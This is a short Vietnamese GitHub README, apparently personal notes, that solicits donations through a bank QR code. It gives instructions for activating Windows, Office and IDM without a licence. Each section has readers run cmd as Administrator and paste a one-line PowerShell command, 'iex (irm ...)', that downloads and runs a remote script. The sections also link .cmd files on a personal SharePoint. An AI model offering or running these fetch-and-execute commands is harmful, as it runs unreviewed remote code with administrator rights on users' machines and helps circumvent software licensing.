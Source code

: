 # Những ghi chú rất hữu ích cho mọi người
- Nếu quý vị thấy hay hãy ủng hộ cà phê qua tài khoản ngân hàng:

  ![QRPay](https://github.com/user-attachments/assets/8ea1cab7-98ce-4fe4-b9cd-45cc5a0802be)
  
- Rất cảm ơn!

## Kích hoạt mọi Windows và Office:
### MasTools
  - Là phần mềm kích hoạt hay nhất, kích hoạt được Windows và Office vĩnh viễn.
  - Quý vị chạy **cmd** bằng quyền **Run as Administrator** rồi dán câu lệnh này vào

    ```php
    powershell iex (irm https://massgrave.dev/get)
    ```

  - Hoặc quý vị mở **NotePad** lên, sao chép đoạn mã trên vào và **Save As** đặt tên là **MasTools.cmd** rồi **Run as Administrator**
  - [Bấm vào đây](https://3w7ng6-my.sharepoint.com/:u:/g/personal/driver_3w7ng6_onmicrosoft_com/ETDgzyipj8NHoJ9so1prsckBUbI70JadjJhH-OcsFXr8iw?e=z9CUKC) để download file **MasTools/cmd**

### Kích hoạt IDM:
  - Là phần mềm cũng khá hay.
  - Quý vị chạy **cmd** bằng quyền **Run as Administrator** rồi dán câu lệnh này vào

    ```php
    powershell iex (irm https://coporton.com/ias)
    ```

  - Hoặc quý vị mở **NotePad** lên, sao chép đoạn mã trên vào và **Save As** đặt tên là **IDM.cmd** rồi **Run as Administrator**
  - [Bấm vào đây](https://3w7ng6-my.sharepoint.com/:u:/g/personal/driver_3w7ng6_onmicrosoft_com/EZEG6zNbvnFBqWmI2OMlIskBMjBqp5yHM_g_8WOe1TUItQ?e=PLvmLF) để download file 
